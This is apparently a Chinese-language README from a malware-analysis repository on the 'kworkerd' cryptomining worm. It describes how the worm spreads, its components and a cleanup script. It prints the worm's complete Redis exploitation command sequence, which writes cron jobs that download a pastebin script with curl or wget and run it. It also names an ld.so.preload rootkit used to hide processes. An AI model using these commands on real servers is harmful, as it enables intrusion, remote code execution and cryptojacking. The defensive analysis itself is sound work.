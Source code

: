 # kworkerd
2018.8 通过redis等途径入侵传播，solvethis.sh为清除脚本

2018.12 更新，攻击者将一些恶意内容放在了：https://github.com/SYSTEMFOUR ；使用chattr +i；检测了云服务商以卸载安全程序；利用开源的masscan进行快速扩散传播

### 利用REDIS未授权执行：
```
config set stop-writes-on-bgsave-error no

flushall

config set dbfilename root

set SwE3SC "\t\n*/10 * * * * root (curl -fsSL https://pastebin.com/raw/xbY7p5Tb||wget -q -O- https://pastebin.com/raw/xbY7p5Tb)|sh\n\t##"

set NysX7D "\t\n*/15 * * * * (curl -fsSL https://pastebin.com/raw/xbY7p5Tb||wget -q -O- https://pastebin.com/raw/xbY7p5Tb)|sh\n\t##"

config set dir /etc/cron.d

save

config set dir /var/spool/cron

save

config set dir /var/spool/cron/crontabs

save

flushall

config set stop-writes-on-bgsave-error yes
```

### pastebin.com_raw_5bjpjvLP:
开始执行的脚本

### python.py
扫描redis和攻击模块

### gw7mywhc.txt
主要功能逻辑

### httpdns
执行JNPewK6r.txt

### JNPewK6r.txt
简化的主功能逻辑

### kworkerds
挖矿程序

### config.json
挖矿程序配置文件

### ld.so.preload
指向恶意链接库/usr/local/lib/libntp.so，用于隐藏top和ps的进程显示

### libntp.so
恶意链接库 rootkit

